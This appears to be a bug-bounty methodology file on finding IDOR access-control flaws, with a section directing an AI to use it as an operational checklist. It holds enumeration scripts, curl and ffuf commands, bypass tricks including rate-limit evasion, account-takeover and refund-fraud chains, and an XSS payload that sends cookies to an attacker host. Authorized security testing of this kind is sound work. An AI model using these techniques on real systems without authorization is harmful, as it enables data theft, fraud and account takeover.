




## Crown Jewel Targets

**Why IDOR pays big:**
- Direct access to other users' data without authentication bypass — clear, demonstrable impact
- Chains easily with privilege escalation, financial fraud, and account takeover
- Affects virtually every application with user-owned resources

**Highest-value asset types (by payout potential):**

| Asset Type | Why It Pays |
|---|---|
| Financial documents / billing APIs | PII + financial data exposure (Shopify, Uber, PayPal) |
| Private repositories / source code | IP theft, critical data loss (GitHub) |
| User messages / DMs | Privacy violation at scale (Reddit) |
| Account management endpoints | User addition, deletion, privilege escalation (PayPal, Mozilla) |
| Business/org administration | Cross-tenant escalation, employee PII (Uber) |
| Content moderation/admin actions | Operational sabotage (Reddit mod logs) |

**Programs that pay most for IDOR:**
- Platforms with multi-tenancy (SaaS, B2B tools)
- Fintech and payment processors
- Social platforms with private content
- Developer tools with org/repo isolation

---

## Attack Surface Signals

**URL patterns that scream IDOR:**
```
/api/v1/users/{id}/
/api/v*/orders/{order_id}
/invoices/download?id=
/reports/{uuid}/
/messages/{thread_id}
/admin/orgs/{org_id}/members
/migration/{migration_id}/files
/graphql (query params with IDs)
/api/business/{business_id}/
/vouchers/{voucher_id}/policy
```

**Response header signals:**
- `Content-Type: application/json` on endpoints accepting raw IDs
- No `X-Frame-Options` or CORS misconfigs paired with ID params
- `Authorization: Bearer` tokens that are user-scoped but hit org-level resources

**JavaScript source patterns:**
```javascript
// Look for hardcoded or interpolated IDs in JS
fetch(`/api/v1/users/${userId}/profile`)
axios.get('/invoices/' + invoiceId)
graphql query { billingDocument(id: $docId) }
// Redux/state stores exposing foreign IDs
state.currentUser.organizationId
```

**Tech stack signals:**
- GraphQL endpoints (query-based IDORs are often missed)
- REST APIs with sequential integer IDs (most vulnerable)
- UUIDs that are predictable or leaked in other responses
- Multi-tenant SaaS apps with `org_id`, `account_id`, `business_id` params
- Mobile apps (Burp the APK — mobile APIs often skip authorization checks)

---

## Step-by-Step Hunting Methodology

1. **Map all object references in the application**
   - Browse every feature authenticated as User A
   - Capture all requests in Burp Suite
   - Filter for requests containing: `id=`, `_id=`, `uuid=`, `/v1/{noun}/{id}`, query params with numeric/UUID values

2. **Enumerate ID types**
   - Sequential integers → enumerate ±1, ±100
   - UUIDs → check if they appear in other responses or JS files
   - Hashed IDs → check if leaked in public endpoints, metadata, or GraphQL introspection

3. **Create two separate accounts (same privilege level)**
   - User A: resource owner
   - User B: attacker account
   - Log all IDs belonging to User A while authenticated as User A

4. **Replay User A's resource IDs as User B**
   - Replace session cookie/token with User B's credentials
   - Send identical requests referencing User A's object IDs
   - Test ALL HTTP verbs: GET, POST, PUT, PATCH, DELETE on each endpoint

5. **Test cross-tenant/cross-org scenarios**
   - Create accounts in separate organizations/businesses
   - Test if Org B's session can reference Org A's IDs
   - Pay special attention to admin/management endpoints

6. **Test GraphQL specifically**
   - Run introspection: `{ __schema { queryType { fields { name } } } }`
   - For every query/mutation taking an `id` argument, substitute another user's ID
   - Test both queries (read) and mutations (write/delete)

7. **Test write/destructive operations, not just reads**
   - Can User B DELETE User A's resources?
   - Can User B MODIFY User A's content?
   - Can User B ADD themselves to User A's account?

8. **Chain IDORs together**
   - Use one IDOR's leaked data (org IDs, user IDs) to fuel the next
   - IDOR → leaked ID → second IDOR → privilege escalation

9. **Test state-changing edge cases**
   - Expired tokens/invites that can still be accepted
   - Race conditions on resource IDs
   - Indirect references: `?sort=id` or `?filter[user_id]=`

10. **Document the exact differential**
    - Confirm User B has NO legitimate access to User A's resource
    - Screenshot/log the 200 OK vs expected 403/404

---

## Payload & Detection Patterns

**Basic IDOR test with curl (swap cookie/token):**
```bash
# Get User A's resource ID while authenticated as A
curl -s -H "Cookie: session=USER_A_SESSION" \
  https://target.com/api/v1/invoices/12345

# Replay with User B's session
curl -s -H "Cookie: session=USER_B_SESSION" \
  https://target.com/api/v1/invoices/12345

# Success = 200 OK with User A's data
```

**GraphQL IDOR test:**
```bash
curl -s -X POST https://target.com/graphql \
  -H "Authorization: Bearer USER_B_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"query":"{ billingDocument(id: \"USER_A_DOC_ID\") { id amount pdfUrl } }"}'
```

**Enumerate sequential IDs with ffuf:**
```bash
ffuf -u "https://target.com/api/v1/orders/FUZZ" \
  -w ids.txt \
  -H "Authorization: Bearer USER_B_TOKEN" \
  -mc 200 \
  -o idor_results.json
```

**Generate sequential ID wordlist:**
```python
# Generate IDs around a known value
known_id = 48291
with open("ids.txt", "w") as f:
    for i in range(known_id - 500, known_id + 500):
        f.write(str(i) + "\n")
```

**Burp Intruder payload for IDOR scanning:**
```
GET /api/messages/§12345§ HTTP/1.1
Host: target.com
Authorization: Bearer USER_B_TOKEN

# Mark §12345§ as injection point
# Use numeric sequential payload: 12000-13000
# Filter responses by length difference or status 200
```

**JavaScript scraping for leaked IDs:**
```bash
# Find IDs in JS bundles
curl -s https://target.com/static/app.js | grep -Eo '"id":"[a-f0-9-]{36}"' | sort -u

# Find object references in API responses
curl -s -H "Cookie: session=USER_A" \
  https://target.com/api/v1/dashboard | python3 -m json.tool | grep -i "_id"
```

**Grep patterns for source code review:**
```bash
# Missing authorization checks in common frameworks
grep -r "findById\|findOne\|getById" --include="*.js" .
grep -r "params\[:id\]\|params\['id'\]" --include="*.rb" .
grep -r "request\.args\.get\('id'\)" --include="*.py" .

# Look for direct ORM queries without user scoping
grep -r "Model\.find(params" --include="*.js" .
# vs secure pattern: Model.find({ id: params.id, userId: req.user.id })
```

**IDOR via HTTP method tampering:**
```bash
# Try undocumented methods
for method in GET POST PUT PATCH DELETE OPTIONS HEAD; do
  echo "=== $method ==="
  curl -s -X $method \
    -H "Authorization: Bearer USER_B_TOKEN" \
    https://target.com/api/v1/users/USER_A_ID/profile
done
```

---

## Common Root Causes

1. **Missing ownership check in ORM queries**
   ```javascript
   // VULNERABLE: fetches any record
   const invoice = await Invoice.findById(req.params.id);
   
   // SECURE: scopes to authenticated user
   const invoice = await Invoice.findOne({ _id: req.params.id, userId: req.user.id });
   ```

2. **Authorization at the route level, not object level**
   - Developer checks "is user logged in?" but not "does this user own this object?"
   - Middleware confirms authentication; individual handlers skip ownership validation

3. **Trusting client-supplied IDs in request bodies**
   - Mobile apps or SPAs send `org_id` in POST body; server uses it directly without verifying caller belongs to that org

4. **GraphQL resolvers without field-level authorization**
   - Query resolvers fetch by ID from database without checking if the requesting user has permission
   - Especially common when resolvers are auto-generated from schema

5. **Inconsistent authorization across HTTP verbs**
   - GET endpoint is protected; POST/DELETE on same resource path is not
   - Common in APIs built incrementally by different developers

6. **Indirect references exposed via related objects**
   - Object A (accessible) contains a reference to Object B (should be private)
   - Developer only protects direct access to B, not indirect references through A

7. **Race conditions and state-based IDORs**
   - Authorization checked at creation time, not at access time
   - Invites/tokens remain valid after the granting permission is revoked

8. **Multi-tenant isolation failures**
   - Developers implement per-user access control but forget cross-org boundaries
   - `user_id` check present; `org_id` / `tenant_id` check absent

---

## Bypass Techniques

**Defense: UUIDs instead of sequential integers**
- Bypass: UUIDs often leak in other API responses, notification emails, webhooks, GraphQL queries, or JS source
- Technique: Harvest UUIDs from accessible endpoints, then replay against restricted ones

**Defense: Indirect/hashed object references**
- Bypass: Decode the hash (often base64 or simple obfuscation), or find the original ID in another response
- Technique: `echo "dXNlcl8xMjM0NQ==" | base64 -d` → `user_12345`

**Defense: Short-lived tokens per resource**
- Bypass: Tokens sometimes reusable across users if server only validates token format, not binding
- Technique: Use your own token to access another user's resource ID

**Defense: Rate limiting on enumeration**
- Bypass: Slow enumeration (1 req/5s), use distributed IPs, or exploit non-enumeration IDORs (you already know the target's ID from another leak)

**Defense: Checking `user_id` in WHERE clause**
- Bypass: Check if the same endpoint exists at a different API version (`/v1/` vs `/v2/`) — authorization logic is often version-specific
- Technique: Check JS bundles for older API version calls

**Defense: CORS restrictions**
- Bypass: IDOR doesn't require cross-origin exploitation — you're testing API endpoints directly with your own session

**Defense: "Opaque" references via server-side sessions**
- Bypass: Look for any endpoint that *returns* the internal ID, then use it elsewhere; APIs often expose IDs in `Location` headers, error messages, or metadata

**Defense: Parameter filtering/WAF on common patterns**
- Bypass: Try nested JSON `{"data": {"id": "VICTIM_ID"}}`, HTTP parameter pollution `?id=own_id&id=victim_id`, or parameter name variations `user_id`, `userId`, `uid`, `account`

---

## Gate 0 Validation

Before writing the report, answer all three:

1. **What can the attacker DO right now?**
   Be specific: "Attacker with a valid account can send a GET request to `/api/v1/invoices/{victim_invoice_id}` and receive the victim's full billing document including name, address, and payment amount — without any relationship to that account."

2. **What does the victim LOSE?**
   Map to CIA triad: confidentiality (data exposed), integrity (data modified), or availability (data deleted). "Victim loses confidentiality of private financial records" or "Victim's content is deleted by a third party" — vague answers fail.

3. **Can it be reproduced in 10 minutes from scratch?**
   - Two fresh accounts created ✓
   - Exact HTTP request documented with victim's ID ✓
   - 200 OK response showing victim's data (or confirmed state change) ✓
   - No reliance on pre-existing state or timing ✓
   
   If you can't demo it reproducibly, do not file the report.

---

## Real Impact Examples

**Scenario 1: Financial Data Exposure + Cross-Account Billing Fraud (Uber-style)**
An attacker discovers two related IDORs: one allows reading any organization's voucher policy configuration (exposing org IDs, employee email lists, and payment methods), and a second allows modifying voucher policies using those leaked IDs. Chained together, this enables the attacker to redirect charges to an arbitrary business account, expose employee PII across organizations, and take over invitation links — all without any elevated privileges beyond a basic user account. Impact: financial fraud + mass PII exposure across the B2B platform.

**Scenario 2: Private Repository Read via IDOR on Migration Endpoint (GitHub-style)**
A migration feature allows users to upload files to a migration job. The `migration_id` parameter is not validated against the authenticated user's ownership. An attacker creates their own migration, observes the ID format, and substitutes another user's private migration ID — gaining read access to source code files from private repositories they have no access to. Impact: complete confidentiality bypass for private intellectual property.

**Scenario 3: Account Takeover Chain via Message IDOR (Reddit-style)**
An attacker accesses another user's private message threads by substituting their `thread_id` in a messaging API endpoint. The response includes message content, metadata, and — critically — session or verification tokens sent via internal messages. The attacker leverages the token found in the messages to perform account recovery steps, escalating a read-only IDOR into full account takeover. Impact: complete account compromise of targeted users at scale.

---

## Chains & Compositions (Senior Hunting)

Standalone IDOR gets paid at Low-Medium for cross-tenant *read*. The real money is in chaining IDOR to a *state-change* primitive that doesn't normally permit cross-tenant action — turning "I can see victim's data" into "I own victim's account". The six chains below are the highest-paying IDOR compositions on modern bug-bounty programs.

### Chain 1 — IDOR on `/api/users/{id}/email` + Missing Re-Auth → Password Reset → ATO

- **A.** Confirm IDOR on the email-change endpoint — request `PUT /api/users/{victim_id}/email {"email":"attacker@evil"}` from attacker's session; server changes the victim's email without ownership check.
- **B.** Hit the password-reset flow on the victim's account — server emails reset link to the **new** email (attacker's).
- **C.** Open reset link, set new password, log in as victim.
- **Impact:** Silent ATO — victim sees no email change notification because the change happens via API not via the user-facing "change email" UI which has its own audit log.
- **Real shape:** Classic ATO pattern across many SaaS bug-bounty disclosures 2018-2024. Cross-refs `hunt-ato` Path 2 (email change without re-auth).

### Chain 2 — IDOR on File-Download + Filename-Controlled `Content-Disposition` → Reflected-XSS-Via-Download → Session Theft

- **A.** IDOR on `/api/files/{id}/download` returns any user's file given the ID.
- **B.** The download endpoint sets `Content-Disposition: attachment; filename="<user-supplied-filename>"` without sanitising newlines or quotes — attacker uploads a file with filename `"; <script>fetch('https://attacker/x?c='+document.cookie)</script>; foo.txt`.
- **C.** Victim navigates to download → browser interprets the injected script in the response header context as HTML → JS runs same-origin → cookie/token exfil.
- **Impact:** ATO via IDOR + filename-controlled response header — neither primitive alone is critical; the chain is.
- **Real shape:** Multiple disclosed cases involving Office 365 SharePoint download endpoints, GitLab attachment downloads, SaaS export endpoints. Pairs with `hunt-xss` Chain 1 (response-header XSS class).

### Chain 3 — IDOR via GraphQL `node(id:)` GID + Relay Relation Traversal → Cross-Tenant Mass Data Extraction

- **A.** Target uses GraphQL with Relay-style global IDs (`gid://shopify/Customer/<n>` or base64-encoded `type:id` patterns).
- **B.** `node(id:"<victim_gid>") { ... on Customer { email orders { totalPrice paymentMethods { cardLast4 } } } }` — the top-level `node()` resolver auths the requester, but nested relations don't re-check ownership against the resolved Customer.
- **C.** Iterate IDs (decoding base64 to extract numeric, incrementing) to exfil emails, order totals, payment methods across the entire customer base.
- **Impact:** Mass cross-tenant PII / financial data extraction. Single bug, full database.
- **Real shape:** Shopify Billing IDOR H1 #2207248 ($5,000); HackerOne PolicyPageAssetGroup IDOR H1 #1618347 ($25,000). Cross-refs `hunt-graphql` Disclosed Report Citation #5 and #2.

### Chain 4 — IDOR on `/api/teams/{id}/members` + Mass-Assignment in Body → Role Escalation on Victim Team

- **A.** Standard horizontal IDOR — `POST /api/teams/{victim_team_id}/members {"email":"attacker@evil"}` adds attacker as a normal member without ownership check.
- **B.** The body accepts additional fields the API didn't filter: `{"email":"attacker@evil", "role":"OWNER", "permissions":["*"]}` — mass assignment leaks into the role field.
- **C.** Attacker is added to the victim team as OWNER. Now has full admin access to the victim team's resources and can remove the real owners.
- **Impact:** Cross-tenant privilege escalation via IDOR + mass assignment. The single most efficient takeover chain on SaaS team-management APIs.
- **Real shape:** Shopify undocumented `fileCopy` mutation H1 #981472 (2020, $2,000); Stripe `UpdateAtlasApplicationPerson` cross-tenant mutation H1 #1066203 (2020). Cross-refs `hunt-graphql` Disclosed Report Citation #7 and #8; pairs with `hunt-api-misconfig` Mass Assignment section.

### Chain 5 — Soft-Delete IDOR + Post-Removal Token Validity → Persistent Cross-Tenant Access

- **A.** Identify the "remove member" endpoint that flips an `active=false` flag but doesn't invalidate the session/PAT.
- **B.** Log in as the to-be-removed user; capture session cookie or PAT.
- **C.** Have the org admin remove the user via the normal flow. Wait. Re-issue API calls using the captured token — IDOR is now *temporal* (the user no longer has permission per the policy table, but the cached auth context still passes).
- **Impact:** Weeks of post-termination cross-tenant access; GDPR/CCPA breach exposure; potential extortion leverage.
- **Real shape:** Shopify removed-staff persistence class (2022). Cross-refs `hunt-misc` Chain 1 — same root cause shape, different starting primitive.

### Chain 6 — Double-IDOR (`/users/{id}/orders → /orders/{order_id}/refund`) → Financial Impact on Victim Merchant

- **A.** First IDOR: `GET /api/users/{victim_id}/orders` returns the victim's order list without ownership check — yields legitimate `order_id` values.
- **B.** Second IDOR: `POST /api/orders/{order_id}/refund` issues refunds without checking that the requester owns the merchant/order.
- **C.** Trigger refund on each of the victim merchant's recent orders. Money moves from merchant to customer (who is also attacker-controlled).
- **Impact:** Direct financial loss to the victim merchant. Mass-exploitable across the platform's merchant base.
- **Real shape:** Multiple disclosed e-commerce platform IDOR chains 2019-2023. Cross-refs `hunt-business-logic` Chain (financial impact via state-machine confusion).

### Operator-level pattern

When you confirm a read-IDOR at A, immediately ask: *what state-change accepts the same ID and might also be IDOR'd?* The chain is usually one of: (1) password reset / email change at terminal step → ATO; (2) refund / withdraw / transfer → financial; (3) role-change / membership-add → privilege escalation. If your read-IDOR doesn't compose to one of those, the standalone payout is what you get. Hunt for both halves — the second is often easier to find because it shares the same auth bug class as the first.

Cross-references:
- `hunt-ato` — Chain 1, 5
- `hunt-xss` — Chain 2
- `hunt-graphql` — Chains 3, 4
- `hunt-misc` — Chain 5
- `hunt-business-logic` — Chain 6

---

## Related Skills & Chains

- **`hunt-auth-bypass`** — Object-level authorization failure plus route-level auth absence is the canonical IDOR-amplifier. Chain primitive: missing `req.user.id` scoping in ORM query + missing middleware on legacy `/v1/` route = unauthenticated cross-tenant data read via direct ID substitution → bulk PII dump without any session at all.
- **`hunt-ato`** — Profile-edit IDOR is the most direct path from "read someone's data" to "own their account." Chain primitive: `PATCH /api/users/{victim_uid}` accepts attacker's session + victim UID → set `email=attacker@evil.com` → trigger password reset → reset link arrives at attacker → full ATO without ever knowing victim credentials.
- **`hunt-graphql`** — GraphQL resolvers without field-level authorization are IDOR-by-default; introspection hands you the schema. Chain primitive: `__schema` introspection → enumerate every mutation accepting `id:` argument → substitute victim IDs across `updateUser`, `deleteOrg`, `transferBilling` mutations → mass IDOR fan-out from one introspection query.
- **`security-arsenal`** — Pull the IDOR Bypass Tables section for HTTP-parameter-pollution payloads (`?id=own&id=victim`), nested-JSON wrappers (`{"data":{"id":"VICTIM"}}`), and parameter-name variations (`uid`/`userId`/`user_id`/`account`) when the first direct substitution returns 403.
- **`triage-validation`** — Run the Pre-Severity Gate before claiming Critical on an IDOR that returns 200 but doesn't actually leak data (empty array, redacted fields, "access denied" in body with 200 status). The 200-but-no-data IDOR is the #1 N/A driver on H1/Bugcrowd.

---

# Additional Techniques (merged from offensive-idor/SKILL.md)

## Description
IDOR (Insecure Direct Object Reference) testing checklist: object ID enumeration, horizontal/vertical privilege escalation, GUID predictability, indirect references via hashes, chained IDOR, and API endpoint IDOR. Use for web app pentests and bug bounty IDOR discovery.

## Trigger Phrases
Use this skill when the conversation involves any of:
`IDOR, insecure direct object reference, horizontal privilege escalation, vertical privilege escalation, object enumeration, GUID, API IDOR, mass assignment, broken access control`

## Instructions for Claude

When this skill is active:
1. Load and apply the full methodology below as your operational checklist
2. Follow steps in order unless the user specifies otherwise
3. For each technique, consider applicability to the current target/context
4. Track which checklist items have been completed
5. Suggest next steps based on findings

---

## Shortcut



- Create two accounts for each application role and designate one as the attacker account and the other as the victim account.
- Discover features in the application that might lead to IDOR. Pay attention to features that return sensitive information or modify user data.
- Revisit the features you discovered in step 2. With a proxy, intercept your browser traffic while you browse through the sensitive functionalities.
- With a proxy, intercept each sensitive request and switch out the IDs that you see in the requests. If switching out IDs grants you access to other user's information or lets you change their data, this indicates an IDOR.
- Don't despair if the application seems to be immune to IDOR. Use this opportunity to try a protection bypass technique. If the application uses an encoded, hashed, or randomized ID, you can try decoding, or predicting the IDs. You can also try supplying the application with an ID when it does not ask for one. Finally, sometimes changing the request method type or file type makes all the difference.
- Monitor for information leaks in export files, email, and other text alerts. An IDOR now might lead to an information leak in the future.

## Mechanisms



Insecure Direct Object References (IDOR) occur when an application exposes a reference to an internal implementation object without sufficient access control. These vulnerabilities allow attackers to manipulate these references to access unauthorized data or perform unauthorized actions.

IDOR vulnerabilities arise from flawed access control mechanisms that fail to validate whether a user should have permission to access or modify a specific resource. The core implementation issues include:

- **Missing Authorization Checks**: No validation of user permissions when accessing objects
- **Client-Side ID Transmission**: Relying on client-provided identifiers without server-side verification
- **Predictable Resource Identifiers**: Sequential or easily guessable object references
- **Insufficient Access Control Logic**: Authentication without proper authorization
- **Improper Session Handling**: Not binding resources to user sessions
- **Reliance on Obfuscation**: Using complex identifiers without actual access control

IDORs manifest in various patterns:

- **Horizontal Access Control Failures**: Accessing resources belonging to other users of the same privilege level
- **Vertical Access Control Failures**: Accessing resources requiring higher privileges
- **Context-Dependent Access Control Failures**: Access based on improper contextual states

### Identifying IDOR Vulnerabilities

#### Preparation

1. **Create Multiple Test Accounts**:
   - Set up accounts with different privilege levels (e.g., regular user, premium user)
   - Create multiple accounts within the same privilege level

2. **Establish Baseline Behavior**:
   - Document normal resource access patterns
   - Map all application endpoints that reference objects
   - Identify resource identifiers in requests
   - Evaluate caching headers (ETag/Last-Modified) that can leak existence side‑channels during enumeration

3. **Request Capture Setup**:
   - Configure a proxy (e.g., Burp Suite, OWASP ZAP)
   - For mobile applications, install the proxy’s CA certificate on the device or emulator (e.g., with mitmproxy or Burp Mobile Assistant) so HTTPS traffic can be intercepted.
   - Record all interactions with resource identifiers
   - Create an inventory of potential IDOR test targets

#### Finding IDOR Vulnerabilities

1. **Request Parameter Analysis**:
   - Look for identifiers in URLs, request bodies, cookies, and headers
   - Common parameter names:
     ```
     id, user_id, account_id, file, doc, document, record, item, order, number, profile,
     edit, view, filename, object, num, key, userid, uuid, group, role
     ```
   - Watch for identifiers hidden in JWT claims (`sub`, `org_id`) or signed cookies; tamper if server fails to re‑authorize.

2. **Parameter Manipulation Techniques**:
   - **Direct Modification**: Change numerical IDs (e.g., `id=1` → `id=2`)
   - **Add Missing IDs**: Try adding relevant IDs (e.g., `user_id`, `account_id`) to requests that don't initially have them (e.g., `GET /api/messages` → `GET /api/messages?user_id=<victim_uuid>`). Parameter names can often be inferred from other requests or discovered using tools like Arjun.
   - **GUID/UUID Replacement**: Replace one user's GUID with another's
   - **Decode and Modify**: Decode base64/hex encoded parameters before modification
   - **Array/Object Manipulation**: Add or modify array elements in API requests
     ```json
     {"items": [{"id": 123, "owner": "victim"}]} → {"items": [{"id": 456, "owner": "attacker"}]}
     ```
   - **File Type Manipulation**: Try changing requested file types or appending extensions (e.g., `.json`, `.xml`, `.config`). Ruby applications might respond differently to `/resource/123` vs `/resource/123.json`.
   - **Wildcard Testing**: Replace IDs with wildcards (e.g., `GET /api/users/*`). Rare, but worth trying.
   - **Array-based Access**: Try wrapping IDs in arrays (e.g., `{"id":19}` → `{"id":[19]}`).
   - **JSON Object Wrapping**: Try wrapping the ID in a nested JSON object (e.g., `{"id":111}` → `{"id":{"id":111}}`).
   - **Numeric vs Non-Numeric IDs**: If the application uses non-numeric IDs (GUIDs, usernames), try substituting them with potential numeric equivalents (e.g., `account_id=UUID` → `account_id=123`).
   - **Parameter Name Replacement**: Try alternative parameter names (e.g., album_id → account_id). Fuzz JSON Patch (RFC 6902) and JSON Merge Patch (RFC 7386) bodies for cross‑user modifications.

- **Multiple Value Testing**: Supply multiple values for same parameter (e.g., `id=123&id=456`, `user_id=attacker_id&user_id=victim_id`, `user_id=attacker_id[]&user_id=victim_id[]`). See HTTP Parameter Pollution under Bypass Techniques.
- **New Feature Focus**: Pay special attention to newly added features as they may have weaker access controls; include mobile and older API versions.
- **Cache Probing**: Use CDN cache keys and `If-None-Match` probing to infer existence without full access.

3. **Endpoint Analysis Questions**:
   For each endpoint receiving an object ID, ask:
   - Does this ID reference a private or sensitive resource (vs. public)?
   - What are _my_ legitimate IDs for this type of resource?
   - What are the different user roles interacting with this API? (user, admin, manager, etc.)

4. **Hidden Parameter Discovery**:
   - Analyze JavaScript client-side code for hidden parameters
   - Check mobile app API communications
   - Examine response data for additional identifiable references

5. **Web Socket Discovery**:
   - Identify how websockets are being initiated
   - Check if we can manipulate it to change anything
   - Make sure to test mobile/desktop applications of the target as well
   - Inspect mobile deep links and intent filters that include object IDs; try cross‑app invocation.

6. **Testing Methodology**:
   1. Access resource as User A and capture the request
   2. Note all identifiers (explicit and obfuscated)
   3. Log in as User B
   4. Replay User A's request with User B's session
   5. Modify identifiers to access resources belonging to other users
   6. Test both read and write operations(and all other application boundaries)
   7. if there are mobile applications create a unique user for that platform as well and test IDOR

### Advanced IDOR Testing Techniques



#### Blind IDOR Detection

1. **Comparative Response Analysis**:
   - Compare responses between valid and invalid resource IDs
   - Look for subtle differences in response times, sizes, or error messages
   - Use automated tools to detect variations across multiple requests

2. **Out-of-Band Detection**:
   - Inject tracking URLs in modifiable parameters
   - Monitor for callbacks when the resource is accessed
   - Use server callbacks to detect successful access

3. **Side-Channel Analysis**:
   - Analyze network traffic for additional clues
   - Look for timing differences or response size variations

#### Mass IDOR Testing

1. **Automated Identifier Enumeration**:

```python
import requests

session = requests.Session()

# Test range of IDs
for id in range(1, 1000):
    response = session.get(f"https://example.com/api/documents/{id}")
    if response.status_code == 200:
        print(f"Found accessible document: {id}")
        # Log response for later analysis
```

2. **Parallel Testing with Burp**:
   - Use number payloads for sequential IDs (test large ranges, e.g., 100-1000+).
   - Use custom word lists for GUIDs/UUIDs from observed patterns
   - Set up Grep Match rules to identify successful access

3. **Pattern Recognition**:
   - Analyze response patterns for common IDOR signatures
   - Look for repeated or predictable access patterns

### ID Obfuscation Bypass

- **Hashed IDs**: Collect legitimate hashed IDs and map to users
- **Encoded IDs**: Decode base64/hex encodings and modify values
  ```
  /api/document/MjQ2 (base64 of "246") → /api/document/MjQ3 (base64 of "247")
  ```
- **Encrypted IDs**: Identify encryption patterns and test related IDs

### Access Control Bypass

- **HTTP Method Switching**: Change GET to POST or PUT
  ```
  GET /api/users/123 → POST /api/users/123
  ```
- **Content-Type Manipulation**: Modify content-type headers
  ```
  Content-Type: application/json → Content-Type: application/xml
  ```
- **Parameter Pollution (HTTP)**: Add duplicate parameters with different values. The server might prioritize the first or last occurrence differently.
  ```
  GET /api/document?id=attacker_id&id=victim_id
  GET /api/users?user_id=attacker_id[]&user_id=victim_id[]
  ```
- **Parameter Pollution (JSON)**: Provide duplicate keys in a JSON object. Behavior depends on the parser.
  ```json
  { "user_id": "attacker_id", "user_id": "victim_id" }
  ```
- **Mixed-Case / Path-Normalization Bypass**: Try different capitalizations, mixed-case encodings, dot-segments (../) and URL-encoded slashes (%2F) to bypass path or router checks.
  ```
  GET /admin/profile → GET /ADMIN/profile
  ```
- **Path Traversal Bypass**: Use path traversal sequences within parameters referencing objects.
  ```
  POST /users/delete/MY_ID/../VICTIM_ID
  ```
- **Outdated API Version Testing**: If multiple API versions exist (e.g., /v1/, /v2/), test the IDOR on older, potentially less secure versions.
  ```
  GET /v3/users/123 → 403 Forbidden
  GET /v1/users/123 → 200 OK
  ```

### Request Smuggling for IDOR

- **HTTP Request Smuggling**: Use CL.TE or TE.CL smuggling to inject victim IDs in backend requests

  ```
  POST / HTTP/1.1
  Content-Length: 4
  Transfer-Encoding: chunked

  1
  Z
  Q
  ```

  Front-end strips `user_id` parameter but back-end processes it from smuggled request chunk

### Mass Assignment IDOR

- **Parameter Injection**: Add fields that weren't in original schema
  ```json
  { "name": "John", "role": "admin", "user_id": "victim_id", "is_admin": true }
  ```
- **Case Variation Testing**: Test both camelCase and snake_case variants
  ```
  userId vs user_id vs UserId vs USER_ID
  ```
